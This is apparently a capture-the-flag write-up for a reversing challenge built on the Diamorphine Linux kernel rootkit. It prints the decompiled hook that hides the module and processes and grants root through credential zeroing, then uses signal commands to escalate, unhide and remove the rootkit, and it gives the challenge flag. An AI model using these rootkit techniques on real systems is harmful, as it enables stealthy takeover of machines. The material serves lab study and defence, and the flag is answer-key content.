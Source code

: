 # Cyberpsychosis

## Recon

```plaintext
┌──(quickemu㉿hacking-kali)-[/workspace/rev_cyberpsychosis]
└─$ file diamorphine.ko 
diamorphine.ko: ELF 64-bit LSB relocatable, x86-64, version 1 (SYSV), BuildID[sha1]=e6a635e5bd8219ae93d2bc26574fff42dc4e1105, with debug_info, not stripped
```

Given README file mentions "Victor N. Ramos Mello". We find [GitHub repo with same name as binary](https://github.com/m0nad/Diamorphine), this is a rootkit (kernel module).

Features:

- Module starts invisible
- Hide/unhide any process by sending a signal (31 by default)
- Sending a signal (63 by default) to any PID makes the module become (in)visible
- Sending a signal (64 by default) to any PID makes the given user become root
- Files or directories starting with the `MAGIC_PREFIX` (`diamorphine_secret` by default) become invisible

We also have shell on the system.

```plaintext
┌──(quickemu㉿hacking-kali)-[/workspace]
└─$ nc 94.237.49.23 42382
~ $
```

## Reversing

Build project from source and compare with given binary.

`MAGIC_PREFIX` is stored at start of `.rodata.str1.1` segment. It's `psychosis` for given binary.

```plaintext
00000000: 70 73 79 63 68 6f 73 69 73                       psychosis
```

Function `hacked_kill` contains a `switch` statement with the different signal values.

```c
int hacked_kill(pt_regs* pt_regs) {
    undefined1* puVar1;
    list_head* plVar2;
    int iVar3;
    long lVar4;
    undefined* puVar5;

    plVar2 = module_previous;
    iVar3 = (int)pt_regs->si;
    if (iVar3 == 0x2e) {
        if (module_hidden != 0) {
            __this_module.list.next = module_previous->next;
            (__this_module.list.next)->prev = &__this_module.list;
            __this_module.list.prev = plVar2;
            module_hidden = 0;
            plVar2->next = (list_head*)0x1010c8;
            return 0;
        }
        iVar3 = 0;
        (__this_module.list.next)->prev = __this_module.list.prev;
        module_previous = __this_module.list.prev;
        (__this_module.list.prev)->next = __this_module.list.next;
        __this_module.list.next = (list_head*)0xdead000000000100;
        __this_module.list.prev = (list_head*)0xdead000000000122;
        module_hidden = 1;
    } else if (iVar3 == 0x40) {
        lVar4 = prepare_creds();
        iVar3 = 0;
        if (lVar4 != 0) {
            *(undefined8*)(lVar4 + 4) = 0;
            *(undefined8*)(lVar4 + 0xc) = 0;
            *(undefined8*)(lVar4 + 0x14) = 0;
            *(undefined8*)(lVar4 + 0x1c) = 0;
            commit_creds(lVar4);
            return iVar3;
        }
    } else {
        puVar5 = &init_task;
        if (iVar3 == 0x1f) {
            do {
                puVar1 = *(undefined1**)(puVar5 + 0x8b8);
                puVar5 = puVar1 + -0x8b8;
                if (puVar1 == &DAT_001028f0) {
                    return -3;
                }
            } while ((int)pt_regs->di != *(int*)(puVar1 + 0x108));
            if (puVar5 == (undefined*)0x0) {
                return -3;
            }
            *(uint*)(puVar1 + -0x88c) = *(uint*)(puVar1 + -0x88c) ^ 0x10000000;
            return 0;
        }
        lVar4 = (*orig_kill)(pt_regs);
        iVar3 = (int)lVar4;
    }
    return iVar3;
}
```

- Signal 46 to make the module become (in)visible
- Signal 64 to make the given user become root
- Signal 31 to hide/unhide any process

Become root:

```plaintext
~ $ kill -64 1
~ #
```

Unhide rootkit:

```plaintext
~ # kill -46 1
```

List kernel modules:

```plaintext
~ # lsmod   
diamorphine 16384 0 - Live 0xffffffffc03cf000 (OE)
```

Delete rootkit:

```plaintext
~ # rmmod diamorphine
```

Find files/directories with previously hidden prefix:

```plaintext
~ # find / -name '*psychosis*' 2>/dev/null
/opt/psychosis
```

Get flag:

```plaintext
/opt/psychosis # cat flag.txt
HTB{N0w_Y0u_C4n_S33_m3_4nd_th3_r00tk1t_h4s_b33n_sUcc3ssfully_d3f34t3d!!}
```
